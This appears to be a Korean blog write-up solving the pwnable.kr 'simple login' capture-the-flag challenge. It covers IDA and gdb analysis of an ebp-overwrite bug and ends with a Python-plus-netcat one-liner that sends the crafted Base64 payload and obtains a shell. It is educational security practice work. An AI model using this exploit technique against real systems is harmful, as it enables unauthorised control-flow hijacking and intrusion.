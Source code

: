```yaml
---
title: Pwnable KR - simple login
slug: pwnable-kr-simple-login
date: 2016-05-18 19:40:00 +0900 KST
categories: [write-up]
markup: mmark
---
```


## 문제

![Pwnable KR simple login](pwnable-kr-simple-login.png)

50점 문제

## 풀이

아이다로 열어서 main 함수를 보면

![main in IDA](main-in-ida.png)

Base64Decode 함수를 거쳐서 그 글자가 12글자를 넘지 않았을 때,
memcpy 함수와 auth 함수를 실행할 수 있다.

auth 함수를 보면

![auth in IDA](auth-in-ida.png)

위에 calc_md5 함수가 있고 f87cd601aa7fedca99018a8be88eda34가 있으니
base64decode과 calc_md5를 거친 문자열이 저 해쉬값과 같게 하면
문제가 풀릴 것 같다.

```console
$ ./login
Authenticate : 1
hash : 9b8c895608d18294f61b60b8240d240d
$ ./login
Authenticate : 1
hash : cdf692a9f758d869b6c9aeb2d8b58934
$ ./login
Authenticate : 1
hash : 4ed12d9a2e855dec61a9abe23d16493a
$
```

낚일뻔

마지막으로 correct 함수를 보면

![correct in IDA](correct-in-ida.png)

offset input에 있는 값이 0xdeadbeef면 문제를 풀 수 있다.

```console
$ ./login
Authenticate : QUFBQUJCQkJDQ0ND
hash : 125277e0a9ca4432b398e73ee31e0a22
Segmentation fault
$
```

input의 크기가 12바이트여서 12바이트에 맞게
AAAABBBBCCCC를 인코드한 문자열을 입력하면 segmentation fault가 뜬다.

```c-objdump
(gdb) r
Starting program: /root/Desktop/login
Authenticate : QUFBQUJCQkJDQ0ND
hash : 2c840c4e550f24ed72f4a4ce74a78371

Program received signal SEGSEGV, Segmentation fault.
0x08049424 in main ()
(gdb) i r
eax            0x0      0
ecx            0x32     50
edx            0x80da684        135112324
ebx            0x80481d0        134513104
esp            0xffffd450       0xffffd450
ebp            0x43434343       0x43434343
esi            0x0      0
edi            0x811b00c        135376908
eip            0x8049424        0x8049424 <main+279>
eflags         0x210297 [ CF PF AF SF IF RF ID ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
(gdb)
```

확인해보면 12바이트 중 마지막 4바이트의 값대로 ebp가 변조되어있다.
처음 4바이트 값은 0xdeadbeef로 놔둬야하고,
가운데 4바이트가 남게 되는데 여기에는 correct 함수의 주소를,
마지막 4바이트는 바로 가운데 4바이트가 있는 주소를 가리키도록 하면 된다.

12바이트가 있는 input의 주소는 0x0811eb40이고,
correct 함수의 주소는 0x0804925f다.

주의해야할 점이 가운데 4바이트의 주소가 0x0811eb44라고 해서,
ebp 값을 0x0811eb44로 변조하면 0x0811eb40이 가리키는 주소,
즉 자신이 있는 주소로 점프하게 된다.

```c-objdump
(gdb) r
Starting program: /root/Desktop/login
Authenticate : 776t3l_SBAhE6xEI
hash : 2c840c4e550f243d72f4a4ce74a78371

Program received signal SEGSEGV, Segmentation fault.
0x0811eb44 in input ()
(gdb)
```

이렇게 input 영역을 실행하려고 하다가 segmentation fault를 뿜는다.

풀이

```sh
(python -c "import base64;print base64.encodestring('\xef\xbe\xad\xde'+'\x5f\x92\x04\x08'+'\x40\xeb\x11\x08')"; cat) | nc pwnable.kr 9003
```

```console
$ (python -c "import base64;print base64.encodestring('\xef\xbe\xad\xde'+'\x5f\x92\x04\x08'+'\x40\xeb\x11\x08')"; cat) | nc pwnable.kr 9003
Authenticate : hash : 00cb6656e633c565de02446c0b6a9601
Congratulation! you ar good
id
uid=1009(login) gid=1009(login) groups=1009(login)
```
